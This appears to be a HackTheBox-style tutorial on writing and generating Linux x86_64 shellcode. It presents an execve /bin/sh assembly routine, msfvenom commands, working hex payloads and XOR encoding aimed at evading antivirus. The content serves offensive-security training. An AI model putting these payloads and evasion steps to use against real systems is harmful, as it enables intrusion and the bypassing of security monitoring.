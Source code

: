 We should now be able to modify our code and make it shellcode compatible, such that it meets all `shellcoding requirements`. This understanding is crucial for our own shellcodes and minimizing their size, which may become very handy when dealing with binary exploitation, especially when we don't have a lot of room for a large shellcode.

In other cases, we may not need to write our own shellcode everytime, as a similar shellcode may already exist, or we can use tools to generate our shellcode, so we don't have to reinvent the wheel.

We will come across many common shellcodes through binary exploitation, like a `reverse shell` shellcode of a `/bin/sh` shellcode. We can find many shellcodes that perform these functions, which we may be able use with minimal or no modification. We can also use tools to generate both of these shellcodes.

`For either of these, we must be sure to use a shellcode that matches our target Operating System and Processor Architecture.`

---

## Shell Shellcode

Before we continue with tools and online resources, let's try to craft our own `/bin/sh` shellcode. To do so, we can use the `execve` syscall with syscall number `59`, which allows us to execute a system application:

```shell-session
gdxqpardo@htb[/htb]$ man -s 2 execve

int execve(const char *pathname, char *const argv[], char *const envp[]);
```

As we can see, the `execve` syscall accepts 3 arguments. We need to execute `/bin/sh /bin/sh`, which would drop us in a `sh` shell. So, we our final function to be:

Code: c

```c
execve("/bin//sh", ["/bin//sh"], NULL)
```

So, we'll set our arguments as:

1. `rax` -> `59` (`execve` syscall number)
2. `rdi` -> `['/bin//sh']` (pointer to program to execute)
3. `rsi` -> `['/bin//sh']` (list of pointers for arguments)
4. `rdx` -> `NULL` (no environment variables)

Note: We added an extra `/` in '`/bin//sh`' so that the total character count is 8, which fills up a 64-bit register, so we don't have to worry about clearing the register beforehand or dealing with any leftovers. Any extra slashes are ignored in Linux, so this is a handy trick to even the total character count when needed, and it is used a lot in binary exploitation.

Using the same concepts we learned for calling a syscall, the following assembly code should execute the syscall we need:

```nasm
global _start

section .text
_start:
    mov rax, 59         ; execve syscall number
    push 0              ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push 0              ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    mov rdx, 0          ; set env to NULL
    syscall
```

## Msfvenom

Let's try `msfvenom`, which is another common tool we can use for shellcode generation. Once again, we can list various available payloads for `Linux` and `x86_64` with:

Shellcoding Tools

```shell
gdxqpardo@htb[/htb]$ msfvenom -l payloads | grep 'linux/x64'
```

The `exec` payload allows us to execute a command we specify. Let's pass '`/bin/sh/`' for the `CMD`, and test the shellcode we get:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

Note that this shellcode is also not as optimized and short as our shellcode. Let's try running this shellcode with our `loader.py` script:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ python3 loader.py '6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05'

$ whoami

root
```

This shellcode works as well. Try testing other types of syscalls and payloads in `shellcraft` and `msfvenom`

---

## Shellcode Encoding

Another great benefit of using these tools is to encode our shellcodes without manually writing our encoders. Encoding shellcodes can become a handy feature for systems with anti-virus or certain security protections. However, it must be noted that shellcodes encoded with common encoders may be easy to detect.

We can use `msfvenom` to encode our shellcodes as well. We can first list available encoders:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
```


Then we can pick one for `x64`, like `x64/xor`, and use it with the `-e` flag, as follows:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of hex file: 174 bytes
4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c
```

Let's try running the encoded shellcode to see if it runs:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ python3 loader.py 
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root
```

As we can see, the encoded shellcode works as well while being a little bit less detectable by security monitoring tools.

Tip: We can encoded our shellcode multiple times with the `-i COUNT` flag, and specify the number of iterations we want.

We see that the encoded shellcode is always significantly larger than the non-encoded one since encoding a shellcode adds a built-in decoder for runtime decoding. It may also encode each byte multiple times, which increases its size at every iteration.

If we had a custom shellcode that we wrote, we could use `msfvenom` to encode it as well, by writing its bytes to a file and then passing it to `msfvenom` with `-p -`, as follows:

Shellcoding Tools

```shell-session
gdxqpardo@htb[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin
gdxqpardo@htb[/htb]$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 71 (iteration=0)
x64/xor chosen with final size 71
Payload size: 71 bytes
Final size of hex file: 142 bytes
4831c94881e9fcffffff488d05efffffff48bb5a63e4e17d0bac1348315827482df8ffffffe2f4ea58acd0af59e4ac75018d8f5224df7b0d2b6d062f5ce49abc6ce1e17d0bac13
```

As we can see, our payload was encoded and became much larger as well.

---

## Shellcode Resources

Finally, we can always search online resources like [Shell-Storm](http://shell-storm.org/shellcode/) or [Exploit DB](https://www.exploit-db.com/shellcodes) for existing shellcodes.

For example, if we search [Shell-Storm](http://shell-storm.org/shellcode/) for a `/bin/sh` shellcode on `Linux/x86_64`, we will find several examples of varying sizes, like this [27-bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php). We can search [Exploit DB](https://www.exploit-db.com/shellcodes) for the same, and we find a more optimized [22-bytes shellcode](https://www.exploit-db.com/shellcodes/47008), which can be helpful if our Binary Exploitation only had around 22-bytes of overflow space. We can also search for encoded shellcodes, which are bound to be larger.

The shellcode we wrote above is 27-bytes long as well, so it looks to be a very optimized shellcode. With all of that, we should be comfortable with writing, generating, and using shellcodes.